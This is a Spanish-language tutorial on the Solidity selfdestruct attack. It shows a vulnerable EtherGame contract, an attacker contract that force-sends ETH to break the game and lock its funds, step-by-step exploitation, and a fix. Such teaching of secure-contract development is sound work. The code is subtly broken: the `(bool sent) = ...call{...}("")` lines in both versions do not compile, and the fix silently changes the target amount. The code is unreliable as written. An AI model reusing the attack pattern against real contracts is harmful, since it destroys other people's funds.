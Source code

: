 ```yaml
---
title: 'Solidity: Ataque Por Autodestrucción'
description: 'Las transferencias y el envío de ETH pueden ser perjudiciales para un contrato. Muchos ataques no solo buscan robar fondos, también pueden buscar causar daño y que se pierdan millones de dólares.'
image: '/tech/7-blockchain/solidity.png'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Self-Destruct Attack',
  description: 'Transfers and sending ETH can be detrimental to a contract. Many attacks not only seek to steal funds, they may also seek to cause damage and millions of dollars in loss.'
}
prev: 'cross-reentrancy-attack'
---
```


# Solidity: Ataque Por Autodestrucción

Las transferencias y **el envío de ETH también pueden ser perjudiciales para un contrato**. Muchos ataques a contratos inteligentes no solo buscan robar fondos, también pueden buscar causar daño y que se pierdan millones en un proyecto.

## Recepción de ETH

Los contratos inteligentes pueden recibir ETH a través de funciones especiales o *hooks*.

* [**Fallback:**](https://docs.soliditylang.org/en/v0.8.12/contracts.html#fallback-function "Fallback") La función `fallback()` se ejecuta por defecto cuando se hace un llamado a una función inexistente en un contrato. Puede ser sobreescrita y devolver un resultado o no.
* [**Receive:**](https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function "Receive") La función `receive()` puede ser declarada para que el contrato ejecute determinada lógica al recibir ETH. Si esta no existe, se ejecutará en su lugar la función `fallback`.

Es una buena práctica definir el comportamiento de `fallback()`. No necesariamente debemos utilizar `receive()`, ya que la regla de negocio de nuestro contrato puede no necesitarlo. Son dos maneras de controlar lo que sucede en nuestro contrato al recibir ETH.

## Autodestrucción de contratos

Una de las maneras de generar daño a un proyecto es **enviando de forma forzosa ETH** con la función `selfdestruct()`. La misma enviará todo el ETH que el contrato posea en ese momento, ignorando por completo la existencia de las funciones `fallback()` y `receive()` en el contrato receptor. Este contrato recibirá los ETH mientras que el contrato que ejecutó el `selfdestruct()` quedará inutilizado.

Es sabido que una de las particularidades de Blockchain es la inmutabilidad. Autodestruir un contrato implica, no cambiarle el comportamiento, pero si dejarlo inutilizable.
Originalmente, se ideó la función `selfdestruct()` para casos de emergencia, pero **no es aconsejable la utilización de esta función**, ya que no está garantizado que libere correctamente todo el ETH y el contrato receptor los reciba.

## ¿Por qué es un problema el envío de ETH forzoso?

Se supone que un contrato está "regalando" su ETH a otro. Deberíamos estar felices por ese donativo, pero dependiendo la regla de negocio del contrato receptor, el mismo puede romperse y quedar inutilizable.

Veamos un ejemplo de cómo puede explotarse esta vulnerabilidad:

### Explicación del contrato vulnerado

Comencemos entendiendo el funcionamiento del contrato principal que se trata de un simple juego que permite almacenar ETH y determinador un ganador al llegar a los X ETH.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/self-destruct/ "Solidity by examples").

* El objetivo del juego es llegar a un depósito de 7 ETH.
* Los depósitos solo pueden ser de 1 ETH a la vez.
* El ganador será quien deposite el último ETH.
* Los usuarios no saben cuánto ETH hay en el contrato en cada momento.
* El objetivo del juego es que los usuarios adivinen cuándo se depositará el último ETH para quedarse con todos los fondos.

### Contratos involucrados

Comenzamos analizando el contrato inteligente principal del juego:

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherGame {
  uint public targetAmount = 7 ether;
  address public winner;

  function deposit() public payable {
    require(msg.value == 1 ether, "Solo puedes enviar 1 ETH a la vez.");

    // Verificamos si hemos llegado a los 7 ETH.
    uint balance = address(this).balance;
    require(balance <= targetAmount, "El juego se ha terminado.");

    // Si llegamos al objetivo, seteamos la dirección del ganador para que reclame su premio.
    if (balance == targetAmount) {
      winner = msg.sender;
    }
  }

  function claimReward() public {
    // Solo el ganador puede reclamar su premio.
    require(msg.sender == winner, "No eres el ganador.");

    (bool sent) = msg.sender.call{value: address(this).balance}("");
    require(sent, "El envío del ETH ha fallado.");
  }
}
```

Por otro lado, preparamos el contrato atacante:

```js
contract Attack {
  EtherGame etherGame;

  constructor(EtherGame _etherGame) {
    // Creamos la instancia de EtherGame.
    etherGame = EtherGame(_etherGame);
  }

  function attack() public payable {
    // Convertimos la dirección de EtherGame en payable.
    address payable addr = payable(address(etherGame));

    // Enviando de forma forzosa ETH a EtherGame, puedes romper el juego al igualar o superar los 7 ETH.
    selfdestruct(addr);
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `EtherGame`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2/7 ETH.
3. Desplegar el contrato `Attack` que recibe en el constructor la dirección de `EtherGame`.
4. Hacer el llamado a `Attack.attack` enviando a la vez 5 ETH.

### ¿Qué sucedió aquí?

* `Attack`, al autodestruirse, provoca que de manera forzosa el contrato `EtherGame` llegue a 7 ETH. 2 ETH de sus usuarios más 5 del contrato atacante.
* Nadie más puede depositar ETH y nunca habrá ganador. El ETH en el contrato se pierde para siempre.

### ¿Por qué sucedió?

Observa el contrato `EtherGame`, verás varios puntos donde utiliza `address(this).balance` que devuelve la cantidad total de ETH que el contrato posee. No discrimina que los ETH hayan sido depositados a través de la función `deposit()` o de manera forzosa.

Esto provoca que el balance total del contrato llegue o supere los 7 ETH. El juego se termina, ya que la validación `require(balance <= targetAmount)` no permitirá depositar más ETH y nunca se llegó a setear un ganador para que reclame el premio.

### ¿Cómo se puede evitar?

La solución es muy sencilla, no debemos utilizar `address(this).balance` en un `require()` porque no podemos controlar que todos los ETH hayan sido depositados de manera fiable. En su lugar, declarar una variable en el contrato `uint public balance;` para almacenar el balance del juego e incrementarlo con `balance += msg.value;` con cada depósito.

```js
contract EtherGame {
  uint public balance;          // Variable para almacenar el balance del juego
  uint public targetAmount = 3 ether;
  address public winner;

  function deposit() public payable {
    require(msg.value == 1 ether, "Solo puedes enviar 1 ETH a la vez.");

    balance += msg.value;     // Incrementamos el balance del juego
    require(balance <= targetAmount, "El juego se ha terminado.");

    if (balance == targetAmount) {
      winner = msg.sender;
    }
  }

  function claimReward() public {
    require(msg.sender == winner, "No eres el ganador.");
    (bool sent) = msg.sender.call{value: balance}("");
    require(sent, "El envío del ETH ha fallado.");
  }
}
```

## Conclusiones

Has visto como el envío de ETH puede ser un problema para un contrato inteligente. A veces los atacantes buscan hacer daño solo por maldad, perdiendo ellos también dinero. Ten en cuenta estos detalles de Solidity al desarrollar tus contratos y evitar bloqueos inesperados.
No utilices `address(this).balance` en validaciones sensibles de balances y ten presente la existencia de `selfdestruct()` y de cómo puede utilizarse.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/) de **Platzi**.
